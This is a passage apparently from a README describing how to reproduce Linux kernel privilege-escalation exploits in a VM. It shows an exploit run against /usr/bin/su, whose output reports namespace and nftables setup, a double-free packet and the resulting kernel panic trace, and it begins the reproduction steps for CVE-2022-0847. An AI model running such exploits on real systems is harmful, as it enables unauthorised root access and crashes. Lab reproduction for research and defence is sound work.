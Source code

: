 2. Start recording and execute the `exploit`:
```
./exploit /usr/bin/su

# Example Output
[*] creating user namespace (CLONE_NEWUSER)...
[*] creating network namespace (CLONE_NEWNET)...
[*] setting up UID namespace...
[*] configuring localhost in namespace...
[*] setting up nftables...
[+] running normal privesc
[*] waiting for the calm before the storm...
[*] sending double free buffer packet...
[   51.815511] ==================================================================
[   51.816900] BUG: KASAN: use-after-free in ip_rcv+0x127/0x1a0
[   51.817992] Read of size 8 at addr ffff8881105b6650 by task exploit/213
[   51.819221]
...
[   52.713674] Code: 89 d6 0f 05 c3 66 2e 0f 1f 84 00 00 00 00 00 66 90 48 89 f8 4d 89 c2 48 89 f7 4d 89 c8 48 89 d6 4c 8b 4c 24 08 48 89 ca 0f 05 <c3> 66 0f 1f 44 00 00 e9 db f0
[   52.717070] RSP: 002b:00007ffcf867b558 EFLAGS: 00000202 ORIG_RAX: 000000000000002c
[   52.718494] RAX: ffffffffffffffda RBX: 0000000000402382 RCX: 000000000041ae29
[   52.719821] RDX: 0000000000000014 RSI: 00000000004a9140 RDI: 0000000000000005
[   52.721155] RBP: 00007ffcf867b5a0 R08: 00007ffcf867b5d0 R09: 0000000000000010
[   52.722491] R10: 0000000000000000 R11: 0000000000000202 R12: 00007ffcf867b8a8
[   52.723813] R13: 00007ffcf867b8c0 R14: 0000000000000000 R15: 0000000000000000
[   52.725162]  </TASK>
[   52.725593] Modules linked in:
[   52.726261] ---[ end trace 0000000000000000 ]---
[   52.727130] RIP: 0010:inet_frag_rbtree_purge+0x40/0xa0
[   52.728099] Code: 89 c5 45 31 e4 4c 89 ef 4c 89 eb e8 7a 3f 0d 00 4c 89 f6 48 89 df 49 89 c5 e8 5c 30 0d 00 48 89 dd 48 8d 7b 40 e8 90 3e 6b ff <48> 8b 5b 40 48 8d bd c8 00 08
[   52.731567] RSP: 0018:ffff88811b609ab8 EFLAGS: 00010282
[   52.732557] RAX: 0000000000000000 RBX: 732e6362696c2f64 RCX: ffffffff81c19570
[   52.733875] RDX: 0000000000000000 RSI: 0000000000000008 RDI: 732e6362696c2fa4
[   52.735204] RBP: 732e6362696c2f64 R08: 0000000000000001 R09: ffff88811b6271eb
[   52.736540] R10: ffffed10236c4e3d R11: 0000000063666572 R12: 0000000000010100
[   52.737859] R13: ffff888107569700 R14: ffff8881105b0170 R15: ffff8881105b6780
[   52.739183] FS:  0000000000529ab8(0000) GS:ffff88811b600000(0000) knlGS:0000000000000000
[   52.740723] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   52.741812] CR2: 0000010c34e00000 CR3: 0000000103412000 CR4: 0000000000750eb0
[   52.743152] DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
[   52.744490] DR3: 0000000000000000 DR6: 00000000fffe0ff0 DR7: 0000000000000400
[   52.745818] PKRU: 55555554
[   52.746342] Kernel panic - not syncing: Fatal exception in interrupt
[   52.747745] Kernel Offset: disabled
[   52.748424] ---[ end Kernel panic - not syncing: Fatal exception in interrupt ]---
```

### CVE-2022-0847
Reproduce:
1. In the VM, switch user:
```
cd /root/cve-2022-0847
su silver
```
